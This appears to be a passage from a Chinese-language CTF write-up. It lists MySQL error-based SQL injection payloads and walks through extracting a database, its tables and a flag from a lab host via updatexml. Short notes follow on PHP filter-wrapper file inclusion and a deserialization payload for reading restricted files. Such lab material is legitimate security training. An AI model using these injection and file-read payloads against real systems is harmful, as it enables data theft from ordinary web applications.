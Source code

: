7. multipolygon()
```
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
```

8. linestring()
```
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
```

9. multilinestring()
```
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
```

10. exp()
```
select * from test where id=1 and exp(~(select * from(select user())a));
```

```bash
获取数据库
http://192.168.11.12/ctf/50/content.php?id=1 and (updatexml(1,concat(0x7e,(select database()),0x7e),1)) &rnd=21232f297a57a5a743894a0e
ctf4
获取表名
http://192.168.11.12/ctf/50/content.php?id=1 and (updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)) &rnd=21232f297a57a5a743894a0e
basic,flag
获取字段名
http://192.168.11.12/ctf/50/content.php?id=1 and (updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=0x666c6167),0x7e),1)) &rnd=21232f297a57a5a743894a0e
id,flag
直接获取flag
http://192.168.11.12/ctf/50/content.php?id=1 and (updatexml(1,concat(0x7e,(select flag from ctf4.flag),0x7e),1)) &rnd=21232f297a57a5a743894a0e
 
```
 
## Snoopy Flag Service
考察php封装协议和lfi 
- 查看源代码 
- 根据url判断应该问文件包含 
- 解密得知有waf
- url编码绕过
     
## you are not admin！
考察实战中反序列化漏洞
- 查看页面源代码  
- 读取index.php  
- 读取class.php 
- 正常应该去读f1a9.php但是有限制
if(preg_match("/f1a9/",$file)){  exit();}
这样只能利用反序列化来读取flag文件
于是我们构造反序列化的参数：
O:4:"Read":1:{s:4:"file";s:57:"php://filter/read=convert.base64-encode/resource=f1a9.php";}
 